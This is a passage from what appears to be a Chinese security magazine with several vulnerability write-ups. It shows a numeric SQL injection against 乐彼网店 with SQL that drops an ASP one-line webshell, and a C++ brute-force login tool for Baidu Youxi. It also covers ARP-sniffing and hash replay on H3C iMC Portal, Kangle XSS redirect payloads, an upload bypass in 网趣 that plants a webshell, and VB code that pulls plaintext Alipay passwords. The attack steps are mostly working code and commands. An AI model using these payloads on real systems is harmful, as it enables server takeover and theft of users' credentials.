看起来似乎我们没有了机会，因为“safereplace”函数中将单引号替换为了“&#180;”。不过，请大家注意，我们这里的“msgid”是处于一个数字型查询语句当中，不需要单引号的参与。为此，这里“safereplace”函数对单引号的过滤是徒劳的。

```text
http://127.0.0.1/user/post.asp?action=del_msg&msgid=10)%20and%201=(select%20count(*)%20from%20lebi_adminuser%20where%20admin_name=chr(97)%2bchr(105)
```

解释一下这段注入代码的意思：我们在“msgid=10”的后面添加了一个“)”来闭合前半部分语句，再利用“and”构造并列条件关系，后续语句用于查询表 `lebi_adminuser` 中是否存在用户名“ai”。由于原函数中本身提供了一个右括号，因此该注入语句可形成完整结构并执行。

现在，如果当前设置的“乐彼网店系统”确实存在名为“ai”的管理员用户，那么在浏览器中提交该网址时，就会发现当前用户收件箱中的短消息被顺利删除。

为什么上面的注入语句会成功执行？原因很简单：没有使用单引号，而是借助 Access 内置函数 `chr` 替代单引号作用，使原有防注入过滤函数失效，注入漏洞得以利用。

发现了注入漏洞，那么就可以大胆地发挥自己的想象来猜解数据库中任意表的内容。上面的注入语句只是演示用例，读者可结合实际进行调整。

顺利猜解出管理员用户名和 md5 加密密码后，就可以借助一些网站破解管理员密码，进而登录系统后台。进入后台后，目标是上传 WebShell；即便后台没有直接上传漏洞，也可利用“乐彼网店系统”后台提供的数据库 SQL 语句执行功能来导出 WebShell，如图 5 所示。


图 5

首先，提交创建数据表语句：`create table cmd (a varchar(50));`，在当前数据库建立名为 `cmd` 的表；接着插入一句话 WebShell：`insert into cmd (a) values ('<%execute request(chr(35))%>')`。随后将该表内容导出到网站目录，如图 6 所示。


图 6

```sql
select * into [a] in 'C:\56770shop\aiwuyan.asp;.xls' 'excel 4.0;' from cmd
```

有了网站根目录物理地址，即可导出 WebShell。上述语句利用 Access 支持导出为 xls 的机制，并结合 Windows 2003 文件名解析特性，将一句话 WebShell 导出到网站目录。最后别忘记清理：`drop table cmd`。

以上四步只要操作无误，就能在服务器网站根目录生成一句话 WebShell。借助已有网页客户端可继续上传更大的 WebShell，从而进一步控制服务器。

最后，可以说“乐彼网店系统”的这个 SQL 注入漏洞是一个非常典型的数字型注入漏洞，它将网站系统的安全过滤函数完全变成了徒劳的无用功。系统的开发者在区别 SQL 注入漏洞性质的时候，没有更细心。其实，完全不必要如此费力费心地对每一个来自用户的参数都进行区分过滤，只要开发一个框架，让所有外部参数都经过框架的过滤，这样做又方便又容易维护。

SQL 注入防护，只需要将现有已有的一些防注入系统拿来当做框架修改完善一下，就完全可以避免 SQL 注入漏洞的出现。对于 ASP 程序来说，防注入的工作应该说还是比较简单的，希望“乐彼网店系统”的开发者尽快修复这个安全漏洞，完善系统的安全性。本文旨在讨论安全技术，读者不要借此漏洞进行任何违法行为，作者和杂志概不负责。

- 前置知识：无
- 关键词：百度，漏洞，HTML

## 百度游戏用户登录漏洞


图/文 腾葵

最近，百度更新了百度游戏的首页，笔者便第一时间去观察。当然界面是焕然一新，可漏洞也不少。先在前面说一句，这个漏洞仅用于研究，可能在读者看到这篇文章时，漏洞已经不存在了。本着一颗寻找漏洞的心理，在百度游戏改版后笔者就到了百度游戏首页，开启封包拦截。本人使用 Chrome 中的开发者工具，虽然那功能好像是抄袭苹果的 Safari 的功能，不过还算挺好用。尝试登录一个用户，这时我注意到百度游戏的页面都是显式 xhtml 的，和以往百度其他的百度页面都不同。这时我发现它居然不是使用百度通用的登录接口 passport.baidu.com。虽然最后还是有用到，不过它是先在 login.xhtml 中验证了用户名和密码的正确，然后才通过 passport.baidu.com 设置全百度域名下的 cookie。它对 http://youxi.baidu.com/login.xhtml 这个地址 POST 了一段数据：

```text
c=login&loginName=test&password=test
```

然后返回的是一个神奇的 html 页面，里面如果登录失败就简陋地用 alert 提示你用户名或密码错。还有这个页面自己设置的 charset 是 gbk，不过 alert 的内容却是 utf8 的，我该说什么好，我对此已经做不出什么评论了。

本着一个测试的心理，笔者立刻写个验证工具尝试使用百度这个新接口。一番测试下来，发现这个接口不仅不需要验证码，甚至连登录次数、IP 限制都没有，真的是太可怕了！部分流程代码如下：

```cpp
static char szLoginHeader[] =
"POST /login.xhtml HTTP/1.1\r\n"
"Accept: */*\r\n"
"Accept-Language: zh-cn\r\n"
//"Accept-Encoding: gzip, deflate\r\n"
"User-Agent: MSIE10\r\n"
"Host: youxi.baidu.com\r\n"
"Content-Type: application/x-www-form-urlencoded\r\n"
"Content-Length: %d\r\n"
"Referer: http://youxi.baidu.com/index.xhtml\r\n"
"Pragma: no-cache\r\n"
"Cache-Control: no-cache\r\n"
"\r\n";

static char szLoginData[] =
"c=login&loginName=%s&password=%s";

int _tmain(int argc, _TCHAR* argv[])
{
    char *username = NULL;
    char *password = NULL;
    ...
}
```

```cpp
if (argc > 2)
{
    username = WcToMb(argv[1]);
    password = WcToMb(argv[2]);
} else {
    std::cout << "Usage:" << std::endl
              << "\\BaiduYouxi.exe [username] [password]" << std::endl;
}
// 初始化 socket
WSADATA wsaData;
if (WSAStartup(MAKEWORD(2,1), &wsaData) || LOBYTE(wsaData.wVersion) != 2) {
    std::cout << "WSAStartup Error!" << std::endl;
    free(username);
    free(password);
    return -1;
}
if (!InitHost()) {
    std::cout << "Init Host Error!" << std::endl;
    free(username);
    free(password);
    return -1;
}
SOCKET sock = NULL;
char data[1024], header[1024];
char *szRetHeader = NULL;
CBuffer result;
int dataLen = 0;
if (!InitDefSocket(&sock)) {
    std::cout << "InitDefSocket Error!" << std::endl;
    free(username);
    free(password);
    return -1;
}
// 注意，中文用户名需要用 utf8 格式
std::cout << "Start Login:" << username << ","
          << password << "..." << std::endl;
char *utf8user = MbToUtf8Url(username);
wsprintfA(data, szLoginDataF, utf8user, password);
free(utf8user);
dataLen = lstrlenA(data);
wsprintfA(header, szLoginHeaderF, dataLen);
int i_ret = -1;
if (SOCKET_ERROR == send(sock, header, lstrlenA(header), 0)) {
    i_ret = -2;
    goto exit_1;
}
if (SOCKET_ERROR == send(sock, data, dataLen, 0)) {
    i_ret = -3;
    goto exit_1;
}
if (!RecvDataEx(sock, &result, &szRetHeader)) {
    i_ret = -4;
    goto exit_1;
}
char *alertstart = NULL;
```

```cpp
if ((alertstart = strstr((char *)result.GetBuffer(), "alert(\"") ) == NULL) // 无 alert
{
    std::cout << "登录成功！" << std::endl;
    i_ret = 0;
} else {
    alertstart += 7;
    char *alertend = strstr(alertstart, "\")");
    if (alertend) {
        alertend[0] = 0;
    }
    char *ret_info = utf8ToMbString(alertstart);
    std::cout << ret_info << std::endl;
    free(ret_info);
    i_ret = 4;
}
exit_1:
if (szRetHeader) free(szRetHeader);
free(username);
free(password);
closesocket(sock);
WSACleanup();
return i_ret;
}
```

百度游戏用户登录漏洞的屏幕截图如图 1 所示。


图 1

另外值得一提的是，笔者在发现这个漏洞的同时，给他们的客服邮箱发了封邮件，说明了这个错误，虽然他们回复得很快，不过好像没解决这个问题，他们的那个客服邮箱感觉就像是个摆设，写在那里确实看上去挺专业的。直到最近才更新了一下，换成 user.xhtml 来登录了，返回的是 JSON 数据，不过 login.xhtml 这个登录接口居然没有被封，这真是让人笑掉大牙，百度就这么不在意用户数据的安全问题吗？

这样的事实让我们不得不反思当前国内的互联网安全状况，就连百度这样的大企业也这么不在意这些安全问题，那些小企业就可见一斑了。我们在建立网站的同时更需要重视安全问题，否则表面上看上去挺风光的，最后后台却已经沦为别人的后花园了。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无

关键词：超链接，办公，Office

## 隐藏在超级链接下的罪恶

图/文 爱无言

EduOffice 易用办公软件是北京洲洋伟业信息技术有限公司自主开发的具有独立知识产权的软件产品。该产品是针对教学信息化发展和一线教师及学生的实际使用需要开发的教育专用办公软件。我们在针对该软件进行安全测试的时候，发现其存在一个典型的欺骗用户执行任意文件的漏洞，这里与大家一起分享一下。

本文测试的 EduOffice 易用办公软件版本是 4.0，该软件的界面如图 1 所示。

图 1

当用户使用 EduOffice 易用办公软件进行文档编辑后，该软件会将用户数据保存为“.edu”文件。该文件的格式是“undocumented format”，即未公开的文档格式，如图 2 所示。

图 2

对于这种未公开的文档，我们要进行安全测试，一般采用的方法是进行模糊测试，即 File Fuzz。其原理大致上就是对文档进行逐字节或者多个字节的替换修改，然后每一次修改后生成一个待测试文档文件，之后调用文档文件对应的软件打开这些待测试文档文件，同时监视软件在运行过程是否发生运行错误，从而发现安全漏洞。

我们在利用已有的 Fuzz 程序对 EduOffice 易用办公软件进行初步测试后，并没有发现值得研究的安全漏洞。产生这种结果的原因一般有两种可能性：一种是软件在处理畸形文档文件时存在比较好的容错机制，没有造成诸如溢出、指针覆盖等类型的安全漏洞发生；另一种是我们本身的 Fuzz 程序在进行模糊测试时，它所采用的测试算法不符合本次测试，所以没有能够发现软件潜在的安全漏洞。

面对这样的情况，我们可以重新选择新的 Fuzz 程序或者测试算法进行安全测试，或者干脆自己分析文档格式，从而手工发现软件的安全漏洞。这里，我们选择了后一种方式，即手工分析文档格式来找出软件的安全漏洞。

重新运行 EduOffice 易用办公软件，我们选择研究其对文档中超级链接的保存与处理过程。通过软件菜单，我们发现 EduOffice 易用办公软件支持用户在文档中插入两种类型的超级链接，如图 3 所示。这里选择插入“外部文件”选项后，软件要求用户选择被插入到文档中的文件。我们这里选择插入本地计算机桌面上的一个可执行文件“here.exe”后的效果，如图 4 所示。

图 3

图 4

可以看出，在我们将文件插入到文档中后，文件的路径信息就会显示在文档当中；同时，文档中会以蓝色的立体图案来突出该文件链接。按 F7 键，此时 EduOffice 易用办公软件会播放当前文档文件，类似 PowerPoint 的功能。这是 EduOffice 易用办公软件比较独特的功能，即可以像 Word 那样编辑文档，还可以像 PowerPoint 那样播放文档文件，如图 5 所示。

图 5

在播放状态下，我们点击图 5 中的超级链接，在没有任何安全警告的情况下，“here.exe”文件被顺利执行了，如图 6 所示。

图 6

你可能觉得这个过程似乎没有什么，那我们现在看一看微软 Office 对于这种文件链接在用户点击后是怎么处理的，如图 7 所示。

图 7

图 7 中，微软在发现用户点击文档中的超级链接后，如果该链接是一个链接到可执行文件的链接，那么它就会立即给出安全警告提示。不仅如此，即使用户点击了图 7 警告窗口中的“是”按钮，打算执行链接到的可执行文件，Word 程序还会再次给出警告窗口，如图 8 所示。

图 8

由此看来，EduOffice 易用办公软件对文件类型的超级链接确实没有设置足够的安全机制，用户在点击文档中的超级链接时，很容易造成用户执行木马病毒程序。可是你一定会说，文档中会显示文件的路径信息，这样用户就会注意到。其实，文档中显示的内容是可以改变的，显示内容和超级链接是分离的。为此，我们只要简单地修改显示内容为带有欺骗性质的字眼，就可以诱惑用户去点击。

但是问题又来了，EduOffice 易用办公软件对超级链接会采用蓝色的立体图案或者其他颜色图标来显示，从而提示用户该超级链接的存在，如图 9 所示。

图 9

从图 9 中可以看出，EduOffice 易用办公软件对文件中的超级链接是当做一个按钮来处理的。为此，文档中的超级链接都会有一个边框来显示超级链接的存在。这给我们带来了不小的麻烦。虽然我们发现 EduOffice 易用办公软件在处理文档中文件超级链接时存在安全隐患，但是要想让用户在不知不觉中触发文档中的超级链接，从而执行木马病毒程序，就必须消除文档中一切可以提示用户超级链接存在的证明。

通过软件自身，我们是无法消除超级链接的按钮效果了，那么我们只能通过对文档文件格式中数据的修改来实现去除按钮效果。为简单起见，我们选择了图 9 中第一行第二个按钮的形式，该形式是采用一条蓝色下划线来提示超级链接，如图 10 所示。

保存该文档，我们用 WinHex 来打开它。由于是未公开的文件格式，所以我们只能借助十六进制软件来逐步分析。首先是找到文档保存超级链接信息的位置，如图 11 所示。

从图 11 中可以看出，超级链接的信息采用了双字节明文保存。我们推断设置超级链接按钮性质的关键数据应该在图 11 这个数据块中。由于图 10 中的蓝色在编码形式上其实是“00 FF FF”，这一点我们可以借助 Photoshop 软件来确定，如图 12 所示。

这就让我们对图 11 中存在“00 FF FF”数据的地方产生了怀疑：是不是通过修改文档中某处数据就可以控制超级链接中的蓝色？如果将其设置为白色，这样不就可以欺骗用户，让用户看不出超级链接的存在了。

在尝试了多次以后，我们发现图 11 中处于超级链接后的第一个“00 FF FF”就是控制超级链接颜色属性的关键数据。这样一来，我们将其修改为代表白色的新数据“FF FF FF”，保存该文档文件，利用 EduOffice 易用办公软件再次打开文档文件后，我们发现欺骗效果达到了，如图 13 所示。

当用户在播放该文档时，他只要不小心在文字上方任意处点击了鼠标，那么木马病毒程序就能立即执行，而这一切将不会有任何提示，危害极大。

至此，从对文档格式的一无所知到现在借助数据修改来实现欺骗型超级链接，我们可以发现安全漏洞的挖掘是需要足够的耐心与毅力的。未公开文档的数据测试往往伴随着大量反复的修改、测试、再修改、再测试，但是最终我们会收获胜利的果实。最后，本文旨在讨论技术，希望读者不要利用这些技术来进行恶意攻击等行为，笔者与杂志概不负责。

---

前置知识：无

关键词：ARP 欺骗，数据库后门，漏洞

## H3C iMC Portal ARP 欺骗及数据库后门 Hash 验证漏洞

图/文 李明政 陈祎飞

iMC Portal 是由 H3C 公司开发的面向中小企业以及校园的一款无线上网认证系统。认证界面如图 1 所示。

图 1

类似于这样的计费系统开发一直很热门，诸如面向校园的锐捷……一旦这样的普及系统出现什么问题，不仅是密码泄露，一些个人隐私同时也被暴露。加上社会工程学，那么很可能导致的结果就是 QQ、网银密码等等一系列曝光。

ARP 欺骗这种东西已经屡见不鲜，像那种不用 SSL 加密的页面，搞个 ARP 欺骗就能弄到密码。国内存在这种漏洞的比较典型的服务商诸如：
- @1 百度的搜索即所得
- @2 华为 dbank 网盘登录
- @3 人人网登录

下面分别截图予以证明。

测试环境：一个可以用来进行 ARP 欺骗测试的工具（我用的是 Cain），一台可以用来上网的主机。

@1 我先注册一个用来测试的邮箱吧。  
3T 账号：heifangceshi@163.com，密码：heifang123456。

首先说一下，本来 163 邮箱登录是非常安全的。默认搜索 163 邮箱，或者直接输入 http://mail.163.com/，如图 2 所示。

图 2

注意到了吧，默认是勾选 SSL 安全登录的。可能大部分用户都对此不是很在意，所以他们什么也不管，直接输入用户名和密码然后直接登录、收发邮件……可百度这老伙计就不厚道了，在百度上搜索 163，直接出来的是这个，如图 3 所示。

图 3

这个东西，懂行的人从来不用。不是不想用，而是不敢用吧。我们用百度搜索即所得登录一下，呵呵，截图为证，如图 4 所示。

图 4

看出来了吧，账号是 heifangceshi@163.com，密码是 heifang123456。

@2 再来看一下华为的 dbank，我也先来注册一个账号，就用刚才那个邮箱。账号是 heifangceshi@163.com，密码是 123456。注册完后注意激活的时候，如图 5 所示。

图 5

提醒你千万别点“快速激活账号”啊。你会问点了会有什么后果呢？看一下截图，如图 6 所示。

图 6

不仅 dbank 的账号泄露，而且连邮箱都被人家知道了。什么密保验证邮箱，都是浮云啦，呵呵。

@3 再来看一下人人吧。还是先注册一下，账号 heifangceshi@163.com，密码 heifang123456。然后我们登录人人网看一下，截图为证，如图 7 所示。

图 7

密码依然可以通过 ARP 欺骗获得。

不用多说了，ARP 欺骗这种广泛应用以及威力强大，相信从这三个例子里面你能很好地感受到。衡量一种网络渗透技术有没有发展前途，除了看这种技术本身细节之外，最起码网络渗透方面技术还要受制于网络。我知道有人说可以装上 ARP 防火墙来制止这种攻击的产生。额，的确可以啊，但是你也应该同时听说过，某某大牛，IDA 一开把驱动往里一拖，什么内核拒绝服务漏洞，一堆一堆地就涌现出来了，然后博客上竟是一堆一堆产品的拒绝服务漏洞，然后某某老板见自己家产品被人爆出某洞，搓到极点，把手下程序员好一顿骂……结果……（XX 影防火墙程序员如是说）

当然会有别的 ARP 防火墙也会拦截我们的欺骗，这里就不再一一举例了。毕竟我们不是故意来 ARP 欺骗弄到服务器密码的，所以还是先回到正题 iMC Portal 上来。来看一下 iMC 的认证吧。认证地址是：http://202.118.208.125:8080/portal/index_default.jsp。由于防火墙限制，外网朋友肯定访问不到。很明显没有用 SSL 加密，而且是无线局域网。先看一下在这个无线局域网里都有哪些同学和我在一个网段，如图 8 所示。

图 8

看来上网的人不少啊，很快就会有收获了。进行 ARP 欺骗的截图如下，如图 9 所示。

图 9

很短时间内拿到了两个同学的账号和密码，密码分别为 0TU4MzAz、YWFhODg5MDk40A==。很明显一看密码肯定是用 Hash 做过散列的，后面那个貌似还用 Base64 编过码。SQL 注入的时候拿到后台管理员密码肯定都是加密的，运气好的话，MD5 加密的找个网站可以查表查出管理员密码来，呵呵。

而 H3C iMC Portal 的加密我曾经花了一个下午鼓捣，没有成果，应该是 H3C 自己的私钥。本来我就应该就此放弃了，即使用 ARP 欺骗，出来的也只是加密之后的密文，让不懂加解密的小白无甚作为，说明人家即使不用 SSL，也足够小心，把防范做得很到位，呵呵。可是让我大跌眼镜的是，直接拿到的 Hash 填入密码栏竟然认证通过，如图 10 所示。

图 10

这个如果不是程序员故意留的后门，就是程序在代码实现上有着致命的逻辑性错误。密码存入数据库之所以要加密，不就是为了避免直接被拿到明文认证通过嘛。这个 Hash 验证漏洞必须搭配 ARP 欺骗，两者缺一不可。当然，如果有能力直接把数据库那台服务器拿下，就不用这么低效率的 ARP 欺骗了哈。

第一次给黑防投稿，拙文一篇，还望读者不要笑话。

---

前置知识：无

关键词：Kangle、XSS、漏洞

## Kangle Error Message XSS 代码注入漏洞

图/文 爱无言

Kangle 是一款由国人自己开发的轻量级 Web Server 程序。据猜测，它最终的开发效果是要达到与 Nginx 一样，这是值得鼓励与支持的事情。在这款产品不断改进提升的过程中，我们也发现了不少问题，其中很多问题是已知 Web Server 程序也犯过的错误。在最近一次测试中，我们同样发现了一个安全漏洞，这里将其拿出来与大家一起分享。请不要利用该漏洞进行任何违法行为，我们需要研究的是安全技术本身。

对于所有 Web Server 来说，当用户提交给服务器一个不正确或者无法解析的请求时，Web Server 会返回给用户一个错误提示信息，即“Error Message”。我们熟知的“Error Message”都是由统一数字代号所规范的，如 403 号错误代表访问被禁止，404 号错误代表访问内容不存在，等等。

一般来讲，Web Server 反馈给用户的“Error Message”只起到错误性质的归类，浏览器可以根据这些错误代号来给用户一个明确的错误提示说明。假设 Web Server 返回 404 号错误，那么浏览器接收到该错误代码后，就可以显示出一段文字给用户：“你输入的网址有误，请重新输入”。

当然，浏览器也可以不处理这些错误代码，而是将 Web Server 的“Error Message”原原本本地显示给用户。这个时候，如果“Error Message”中有产生错误的具体信息，这就意味着用户提交的错误内容可以进入到“Error Message”本身，这在一定程度上就会导致安全漏洞发生。不信，我们可以看一看 Kangle 是怎么处理“Error Message”的。

我们这里测试的 Kangle 版本为 2.4.2。当我们向该 Web Server 提交一个不存在的文件网址“ceshi.asp”后，Kangle 给出了一个“Error Message”，如图 2 所示。

图 2

在图 2 中我们看到，Kangle 将我们提交的 URL 地址清晰地显示在了“Error Message”当中。现在，我们提交一个新的 URL 地址，请大家注意看效果，如图 3 所示。

图 3

你是不是十分惊讶，浏览器竟然弹出一个带有“hack you!”字眼的对话框。点击“确定”按钮后，浏览器显示的错误信息是不完整的，如图 4 所示。

图 4

这是一个错误的网址，因为 IP 地址后的那段代码是一段脚本代码，根本不是什么文件和目录的意思。这种错误 URL 地址请求，按照道理 Kangle 应该像图 2 那样将“<script>alert('hack%20you!')</script>”这段代码显示在“Error Message”当中。注意，你分析得很对，当 Kangle 将我们放置在 URL 地址中的脚本代码当作出错内容显示在“Error Message”中时，漏洞发生了，脚本代码被浏览器顺利执行了！

由于 Kangle 对出错信息并没有采用任何安全过滤手段，这就造成我们可以借助提交错误 URL 请求来将任意脚本代码植入到“Error Message”当中，从而实现攻击用户的目的。最常用的利用方法就是在一个正常网站中插入带有脚本代码的 URL 地址，这个 URL 地址的服务器是由 Kangle 提供服务的。然后诱骗用户点击该 URL 地址，这时脚本代码就会被执行，用户就会遭受到攻击。

在测试中，我们发现一个问题：Kangle 对 URL 地址中的“//”或者“\\”“\”都过滤成“/”。这样的话，如果我们想要插入类似这样的脚本代码“<script>location='http://192.168.1.2';</script>”，最终插入到“Error Message”的脚本代码却变成了“<script>location='http:/192.168.1.2';</script>”。

所以，我们需要换个思路，利用 document.write 来实现输出“//”符号。这样，我们新的 URL 类似这样：  
http://192.168.1.10/<script>document.write("<script>location='http:'+'//www.baidu.com';</script>")</script>。  
在该 URL 地址中，我们利用 %2b（即加号）来输出“//”符号，我们就可以实现在“Error Message”中植入任何脚本代码。

现上述 XSS 漏洞已经被修复，因为 Kangle 2.6 版本对“Error Message”的内容进行了重新编码，导致脚本代码无法正确执行。但是经过多次测试，我们还是找出了绕过安全编码重新执行 XSS 脚本的方法，待官方确认修复后，我们将公布给读者，读者也可以自行测试。

最后，记得这种类似的漏洞还出现在某些知名的 Web Server 上，所以大家可以研究一下，有什么好的思路，请拿出来一起分享。在我们测试过程中，我们还发现一个问题，就是 Kangle 在解析畸形 URL 请求时，还会造成物理路径的泄露。例如，有一个本身存在的网页文件，其 URL 地址为：

http://192.168.1.10/2.asp

当我们请求 URL 地址修改为：

http://192.168.1.10/2.asp/

你就会发现 Kangle 泄露物理路径了，如图 5 所示。


图 5

图 5 中我们清晰地看到当前 Kangle 的安装目录以及 Web 目录的物理地址。

- 前置知识：无
- 关键词：网趣，购物，漏洞

## 危险的网趣网上购物系统


图/文 爱无言

之所以对“网趣网上购物系统”发生兴趣，是源于朋友的一次安全测试。被测试目标的网站上有很多网站系统，其中就有“网趣网上购物系统”。虽然是第一次接触这个系统，但是其安全性确实令我惊讶了。请不要误解，不是因为它太安全了，而是因为它的漏洞太直白了，直白得让我有些怀疑时光是不是又退回到了那个注入漏洞最盛行的年代。要知道，随着这几年安全漏洞技术的曝光，网站系统开发人员对注入漏洞的防范十分关注，最简单的方法就是利用一些防注入系统来防范可能存在的注入漏洞。然而，“网趣网上购物系统”的开发者似乎对此毫不知情，这就让漏洞有了可乘之机。

我们这里测试的“网趣网上购物系统”其版本为“网趣网上购物系统时尚版 v11.0”，该系统的开发方是石家庄恒伟网络科技有限公司，并且该系统还有软件著作权证书登记号：2007SR02047。从这一点可以看出，“网趣网上购物系统”是一款符合软件开发理念的产品，这是值得表扬与肯定的。

顺利在本机上搭建好 IIS 环境，将“网趣网上购物系统”解压设置完毕后，我们就可以看到其使用界面了，如图 1 所示。


图 1

从图 1 中我们看出，“网趣网上购物系统”是一款比较清爽的网上购物系统，适合于中小型网站使用。在没有阅读网站代码之前，我拿出啊D注入工具对网站进行一个注入点扫描，如图 2 所示。


图 2

很幸运，啊D注入工具发现“网趣网上购物系统”存在注入点：`http://127.0.0.1/products.asp?id=352`。下一步，我们就可以直接对该注入点进行注入，使用啊D注入工具中的“SQL 注入检测”就可以完成这个工作。不过，在此之前，我们需要看一看“网趣网上购物系统”这个注入点发生的原因。用记事本打开“products.asp”文件，我们在其中赫然发现了一段危险的漏洞代码：

```asp
rss.open "select * from products where
bookid="&request.querystring("id"),conn,1,3
```

真是怀疑自己是不是看错，这样不安全的代码编程人员也敢写出来。“id”这个来自用户端的参数没有经过任何安全过滤就被直接放入了数据库查询语句中，难怪会发生注入漏洞。

既然找到了注入漏洞，我想下一步的测试也就简单了，通过注入漏洞找出管理员的账户和密码进入后台。由于“网趣网上购物系统”的数据库中没有采用传统的命名方式来定义管理员表，而是采用一个名叫“cnhww”的表来存储管理员信息，所以，我们需要在啊D注入工具中手工输入被猜解表名，接着就可以找出管理员的所有数据信息，如图 3 所示。

利用 MD5 解密网站，我们可以破解出被加密的网站管理员密码，然后成功登录网站后台，如图 4 所示。

登录后台后，我们需要做的就是看能不能找出上传 WebShell 的地方，这样我们就可以控制到服务器，获取更高的权限。在网站后台的“添加商品”栏目中，我们发现了上传图片的地方，如图 5 所示。

点击“上传小图片”按钮后，浏览器会弹出一个新的窗口，这个窗口就可以用来上传图片，如图 6 所示。


图 3


图 4


图 5


图 6

针对图 6 的窗口，我们查看其源代码发现了一个可以上传 WebShell 的机会，其代码如下：

```html
<td align="center"
background="images/admin_bg_1.gif"><b><font color="#ffffff">图片上传
<input type="hidden" name="filepath" value="/profile/promiage/">
<input type="hidden" name="filelx" value="jpg">
```

原来当我们在图 6 中上传图片的时候，浏览器提交了一个参数“filepath”，该参数再被传递到网站后台文件后，它被当做保存上传文件的名称。我们可以打开系统用来负责保存上传图片文件的网站文件“upfile.asp”来看一看，代码如下（注意看解释部分）：

```asp
FormPath=Upload.Form("filepath") //注意这里获取了浏览器提交的 filepath 参数……
If Not (CheckFileExt(FileExt) and CheckFileType(File.FileType)) Then
    Response.Write "文件格式不正确 [<a href=# onclick=history.go(-1)>重新上传</a>]"
End If

FileName=FormPath&UserFaceName(FileExt) //组合文件名
If File.FileSize>0 Then
    File.SaveToFile Server.mappath(FileName) //保存被上传的图片文件……
```

要知道，在 Windows 2003 服务器上，我们可以借助 IIS 本身的解析漏洞来制造一个畸形文件名来获得上传 WebShell 的目的。第一步，我们先建立一个包含有 WebShell 脚本代码的图片文件，新建一个记事本，在其中输入`<%response.write("哈哈！成功上传 WebShell")%>`，这里我们没有放入 WebShell 代码主要是为了做演示，保存该代码为 1.jpg 文件。第二步，保存图 6 那个上传文件窗口的源代码到本地计算机上，修改其中的“filepath”参数值如下：

```html
<input type="hidden" name="filepath" value="upfile/proimage/1.asp;">
```

同时，修改表单最终提交的目的地址为“http://127.0.0.1/upfile.asp”。第三步，在登录网站后台的情况下，新开一个浏览器窗口，打开本地保存的上传窗口网页，上传第一步中的 1.jpg 文件。上传成功后，浏览器会给出一个提示，不要关闭当前窗口，如图 7 所示。


图 7

查看图 7 当前窗口的源代码，我们会发现被我们成功上传到服务器上的 WebShell 网址，如下所示（注意加粗部分）：

```html
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<link href="images/css.css" rel="stylesheet" type="text/css">
```

```html
文件格式不正确 [<a href=# onclick=history.go(-1)>重新上传</a>]
<script>window.opener.document.myform.bookpic.value='upfile/proimage/1.asp;201181215393729482.jpg'</script>
<script language="javascript">window.alert("文件上传成功!请不要修改生成的连接地址!");window.close();</script>
```

现在，我们在浏览器中访问上面的网址，你会发现你的 WebShell 就在那里等着你，如图 8 所示。


图 8

至此，一次顺利的网站安全测试结束了。非常典型的一次借助 SQL 注入漏洞成功攻陷服务器的过程。在发现漏洞之余，我们也为“网趣网上购物系统”的安全性捏一把汗。要知道“网趣网上购物系统”的目的是用来进行网上购物的，这是与用户经济利益挂钩的，这种漏洞要是被恶意攻击者利用，后果不堪设想。要想修补 SQL 注入漏洞很简单，采用安全函数过滤所有的外来参数，或者采用安全的防注入系统来加强整个系统的安全性。或许，我们测试的“网趣网上购物系统”是一个免费版本，而其收费版本也许安全性会大大增强。无论如何，一个网站系统的开发者必须将安全问题看重一些，因为要知道，互联网上是不平静的。最后，本文旨在讨论安全技术，任何人以此漏洞进行违法的行为，作者与杂志概不负责。

- 前置知识：无
- 关键词：支付宝，密码，漏洞

## 支付宝的安全控件明文漏洞


图/文 落魄书生

无意在网上看到有人爆出支付宝安全控件存在严重漏洞，可以轻易获取登录密码和支付密码的明文。如果真的存在的话，那么我们的网上交易安全就存在极大的风险了！

我们都知道支付宝是国内领先的独立第三方支付平台，注册用户超过 5 亿，如果出现安全漏洞，后果是无法想象的。漏洞发现者还放出了 EXE 测试程序，不过却有自我宣传打广告的意图，测试程序打开会强制锁定你的 IE 主页，关闭时也会弹出他自己网站的网页。我测试了他的程序，发现支付宝确实存在密码登录明文漏洞。据作者说“竟然能一行代码提取支付宝密码明文”。支付宝用户界面如图 1 所示。


图 1

大概看了下程序，应该是利用 IE 接口获取的。打开 `https://www.alipay.com/` 看了一下源代码，找到了显示密码控件的那段代码：

```html
<object id="__fmu.l_0.p_ie" name="__fmu.l_0.p_ie" width="194" height="24" tabindex="2" classid="clsid:488A4255-3236-44B3-8F27-FA1AECAA8844" codebase="https://download.alipay.com/aliedit/aliedit/2401/aliedit.cab#Version=1,1,0,0">
```

其中：`488A4255-3236-44B3-8F27-FA1AECAA8844` 是密码控件 clsid 值，`__fmu.l_0.p_ie` 是 ID 值。页面这段是否隐藏了某些东西呢？我们知道要获取网页显示内容可以用 innerHTML 获取。笔者只懂 VB，所以文中的代码都是 VB 写的，如图 2 所示。


图 2

我随便输入一个密码，输入的数字“1”，发现了用

```vb
WebBrowser1.Document.getElementById("__fmu.l_0.p_ie").innerHTML
```

获取到的以下代码：

```html
<PARAM NAME="_cx" VALUE="5133"><PARAM NAME="_cy" VALUE="635"><PARAM NAME="PasswordMode" VALUE="-1"><PARAM NAME="SecurityMode" VALUE="-1"><PARAM NAME="TextValue" VALUE="3DES_2_000000000000000000000000_FDB704F0F6FA87B7">...<PARAM NAME="Readonly" VALUE="0"><PARAM NAME="CryptoMode" VALUE="4">...
```

得到了数字 1 的加密内容：`3DES_2_000000000000000000000000_FDB704F0F6FA87B7`。`3DES` 是加密方式，`FDB704F0F6FA87B7` 是加密后的密文。看了每个变量，CryptoMode 引起了我的注意，从字面上猜应该是某种接口。原来的值可以看到是 4，如果改变它的值会发生什么？如图 3 所示。

以下给出完整获取账号密码的代码：

```vb
Dim user As String
Dim pass As String
user = WebBrowser1.Document.getElementById("i-user").Value  ' i-user 为账号 ID
WebBrowser1.Document.getElementById("__fmu.l_0.p_ie").CryptoMode = "0"  ' 修改加密方式，0 不加密
pass = WebBrowser1.Document.getElementById("__fmu.l_0.p_ie").TextData  ' 获取密码
Text3 = "帐户名：" & user & " 密码：" & pass
```


图 3

修改代码为：

```vb
WebBrowser1.Document.getElementById("__fmu.l_0.p_ie").CryptoMode = "0"
```

经测试 CryptoMode 的值为 0 时，得到了登录密码的明文；值不同，加密方式也不同。4 就是表示 3DES 加密，0 应该表示不加密。CryptoMode 的值不同，得到的密文就不同。原来支付宝为了方便还留下这个加密接口，汗！经测试，引用这个密码安全控件的支付宝登录页面登录密码、支付页面的支付密码、淘宝的登录页面登录密码，都可以获取到密码明文！只是每个页面的 ID 值不一样而已，如图 4 所示。

图 4

